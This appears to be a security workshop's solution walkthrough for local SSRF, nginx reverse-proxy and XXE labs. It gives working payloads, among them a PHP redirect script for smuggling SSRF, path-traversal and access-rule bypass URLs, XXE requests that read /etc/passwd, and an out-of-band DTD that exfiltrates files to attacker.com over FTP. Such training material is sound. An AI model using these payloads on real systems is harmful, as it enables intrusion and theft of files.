 ### SSRF Labs

#### Lab1 

Fetches images and returns base64 but there are no restriction on image type or any SSRF check so simply pass localhost url.
  - Accessing localhost http://localhost:8000/ssrflab1/fetch_image.php?url=http://127.0.0.1/
  - Base64 decode

#### Lab2 

Fetches images and returns base64 but there are restrictions in place by sending a HEAD request first and match for `content-type: image/*` in response headers.
(https://github.com/rootxharsh/workshoplabs/blob/85ceee1755cb554e3dfe1393281870a3b43b7df3/ssrf/ssrflab2/fetch_image.php#L8) 

This could be bypassed by serving a page with `content-type: image/*` for HEAD request however for GET we'll reply back with a Location header which will be followed.

  - Create a php file and call it smuggle.php
```php
<?php
if ($_SERVER['REQUEST_METHOD'] == "HEAD") {
        header("Content-type: image/jpeg");
} elseif ($_SERVER['REQUEST_METHOD'] == "GET") {
        header("Content-type: image/jpeg");
        header("Location: ".$_GET['r']."");
}
?>
```

- Serve this on your server (with php configured)
- Payload http://localhost:8000/ssrflab2/fetch_image.php?url=http://your-server/smuggle.php?r=http://127.0.0.1

#### Lab3

We have an endpoint http://localhost:8000/ssrflab3/api.php?p=/api/v1/users which seems to be making a server side request to http://localhost:8000/ssrflab3/api/v1/users 
Also we have an open redirect at Twitter link http://localhost:8000/ssrflab3/external_redirect.php?url=https://twitter.com/rootxharsh we can use this redirect to make server side request to our controlled host by chaining it with above earlier found endpoint.

- Chained Payload http://localhost:8000/ssrflab3/api.php?p=/external_redirect.php%3furl%3dhttp://127.0.0.1/

### Reverse proxy lab 1

#### Vulnerable nginx config

  ```
location /static {
    alias /var/www/app_name/public/;
  }
```

As this will match /static../ , it can be used to do a path traversal in web root of the Rails app.

http://localhost:8010/static../Gemfile

### Reverse proxy lab 2

As Nginx (Rev proxy) + Apache (Backend Server) working in conjuction it causes an inconsistency (`//` & `/`) that will allow us to bypass bellow rule.

```
location /app/admin {
        return 403;
    }
```

Payload : `http://localhost:8020/app/admin//../`

More reference: 

![More reference](Screenshot_21.png)

### XXE Labs

#### Lab1

```http
POST /xxelab1/login HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
<username>&xxe;</username>
<password>x</password>
</root>
```

#### Lab2 

**Note: This OOB XXE will only work in older versions of JAVA (before 1.8) where you can have \r \n characters in FTP requests. In these labs we are using latest version so you can only exfilterate files that don't have characters like \r \n**

http://attacker.com/xxe.dtd

```
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://attacker.com:21/%data;'>">
```

```http
POST /xxelab2/login2 HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "http://attacker.com/xxe.dtd">
]>
<root>
<username>&xxe;</username>
<password>x</password>
</root>
```

#### Lab3
```http
POST /xxelab3/login3  HTTP/1.1
Host: localhost:8030
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 426

<?xml version='1.0'?>
<!DOCTYPE a [
<!ENTITY % xxe SYSTEM "jar:file:///usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '(test)>
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY error SYSTEM &#x27;file:///test/&#x25;file;&#x27;>">
<!ENTITY x "Test"
'>
%xxe;
%eval;
]>
<root>
<username>&error;</username>
<password>x</password>
</root>
```
